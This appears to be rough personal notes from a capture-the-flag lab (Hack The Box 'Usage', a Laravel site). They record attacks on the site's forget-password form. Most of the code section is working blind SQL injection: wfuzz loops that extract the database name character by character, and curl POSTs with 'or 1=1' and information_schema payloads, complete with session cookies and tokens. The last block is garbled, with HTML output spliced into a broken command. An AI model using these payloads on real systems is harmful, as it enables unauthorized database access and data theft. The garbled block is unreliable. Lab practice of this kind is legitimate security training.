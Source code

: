 # Usage \[Easy]

## h

todo

curl sort page xpired - refresh session, token cookies

ffuf does work if curl sorted then peace

ffuf using a request.txt from burp&#x20;

-p and -rate to rate limit incase of WAF scene

Well i couldnt sort the curl bit but burp intruder can follow redirecta however its really slow and if other machines are involved then ofc we can focus on them while this goes on.

Can turbo intruder follow redirects tho?

{% embed url="https://stackoverflow.com/questions/18474690/is-there-a-way-to-follow-redirects-with-command-line-curl" %}

{% embed url="https://0xdf.gitlab.io/2024/10/19/htb-editorial.html" %}

using raw request incase missing headers were the problem

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## c

```
laravel php
admin.usage.htb vhost
token field whenever login is being performed
fuzzing forget-password
[Status: 301, Size: 178, Words: 6, Lines: 8

for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr(database(),$i,1)))=FUZZ --+";done 

for i in $(seq 1 10); wfuzz -c -z range,32-127  -b "XSRF-TOKEN=eyJpdiI6ImJDMDhuWEdORUhxYVo3ZE9tSHhUM3c9PSIsInZhbHVlIjoiMHVxc3FqLzcvcFBQcExFWXhRN0Z4YTE4aHp1VnJnTEtXOTZWWGZYbjBWRUJBWUc0VjhJSHh6RThYNWZDYUtPY0RVYXJRVlpBU09SV1laY0M0eWtPMUZBdFJ1Qk1DZDRheFUySUtHVC9BOXNNbmlCWTVZNGZLVzhIZ1pBbXpoYmMiLCJtYWMiOiJjYTIyY2I2OTM4YTI2MTNkODlhZmJkOWIxMzljMjA2ZmFkMmUyNGMwMGQ5MThjYWU0M2FiMGY4MWI0ZjEyNmVjIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjE3cGI3bjR5Y3psMkUvUWJ0TGw5V2c9PSIsInZhbHVlIjoiZi9xY3NuR3ErVXVWMzlFcXROVGZxQkNTRERJMHB0bGNZZ0UxcVFZZGIycktmWFRaZWIrNmJKcy9RZEhqOEtpVmFFb1piWXB4MVMrS01nN2swR2ZDK3pZQjdMR1VEY0p5a3c1SW9rOXJFcTdzbDdNTm54RnoyOGM0U1kyZ2xHaWkiLCJtYWMiOiIyZTQxNmYyZTc3OWU3NjlhMzE1ZjgyOGJkZDg3M2FiYzFkOWM1ODljNTQxODhhZTNhZTk0MzRhMDU0OTg4MDcwIiwidGFnIjoiIn0%3D" -u http://10.10.11.18/forget-password:80 -X POST -d "_token=C9PYLY5AYByiQPK35kxcSJb4rYu9VLJulIGOe1RH&email=x OR (ascii(substr(database(),$i,1)))=FUZZ-- -'" --hw=12



Once we broke the sql identify the or code that actlly makes it work properly

curl --insecure -b "XSRF-TOKEN=eyJpdiI6ImJDMDhuWEdORUhxYVo3ZE9tSHhUM3c9PSIsInZhbHVlIjoiMHVxc3FqLzcvcFBQcExFWXhRN0Z4YTE4aHp1VnJnTEtXOTZWWGZYbjBWRUJBWUc0VjhJSHh6RThYNWZDYUtPY0RVYXJRVlpBU09SV1laY0M0eWtPMUZBdFJ1Qk1DZDRheFUySUtHVC9BOXNNbmlCWTVZNGZLVzhIZ1pBbXpoYmMiLCJtYWMiOiJjYTIyY2I2OTM4YTI2MTNkODlhZmJkOWIxMzljMjA2ZmFkMmUyNGMwMGQ5MThjYWU0M2FiMGY4MWI0ZjEyNmVjIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjE3cGI3bjR5Y3psMkUvUWJ0TGw5V2c9PSIsInZhbHVlIjoiZi9xY3NuR3ErVXVWMzlFcXROVGZxQkNTRERJMHB0bGNZZ0UxcVFZZGIycktmWFRaZWIrNmJKcy9RZEhqOEtpVmFFb1piWXB4MVMrS01nN2swR2ZDK3pZQjdMR1VEY0p5a3c1SW9rOXJFcTdzbDdNTm54RnoyOGM0U1kyZ2xHaWkiLCJtYWMiOiIyZTQxNmYyZTc3OWU3NjlhMzE1ZjgyOGJkZDg3M2FiYzFkOWM1ODljNTQxODhhZTNhZTk0MzRhMDU0OTg4MDcwIiwidGFnIjoiIn0%3D" -X POST --data "_token=C9PYLY5AYByiQPK35kxcSJb4rYu9VLJulIGOe1RH&email=j@gmail.com' or 1=1;-- -';" http://usage.htb/forget-password

IF email does not exist
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url='http://usage.htb/forget-password'" />itle>Redirecting to http://usage.htb/forget-password</title>6l.com' or (select count(*) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='usage_blog')=15;-- -';TOKEN=eyJpdiI6ImJDMDhuWEdORUhxYVo3ZE9tSHhUM3c9PSIsInZhbHVlIjoiMHVxc3FqLzcvcFBQcExFWXhRN0Z4YTE4aHp1VnJnTEtXOTZWWGZYbjBWRUJBWUc0VjhJSHh6RThYNWZDYUtPY0RVYXJRVlpBU09SV1laY0M0eWtPMUZBdFJ1Qk1DZDRheFUySUtHVC9BOXNNbmlCWTVZNGZLVzhIZ1pBbXpoYmMiLCJtYWMiOiJjYTIyY2I2OTM4YTI2MTNkODlhZmJkOWIxMzljMjA2ZmFkMmUyNGMwMGQ5MThjYWU0M2FiMGY4MWI0ZjEyNmVjIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjE3cGI3bjR5Y3psMkUvUWJ0TGw5V2c9PSIsInZhbHVlIjoiZi9xY3NuR3ErVXVWMzlFcXROVGZxQkNTRERJMHB0bGNZZ0UxcVFZZGIycktmWFRaZWIrNmJKcy9RZEhqOEtpVmFFb1piWXB4MVMrS01nN2swR2ZDK3pZQjdMR1VEY0p5a3c1SW9rOXJFcTdzbDdNTm54RnoyOGM0U1kyZ2xHaWkiLCJtYWMiOiIyZTQxNmYyZTc3OWU3NjlhMzE1ZjgyOGJkZDg3M2FiYzFkOWM1ODljNTQxODhhZTNhZTk0MzRhMDU0OTg4MDcwIiwidGFnIjoiIn0%3D" -X POST --data "_token=C9PYLY5AYByiQPK35kxcSJb4rYu9VLJulIGOe1RH&email=j@gmail.com" http://usage.htb/forget-password

```
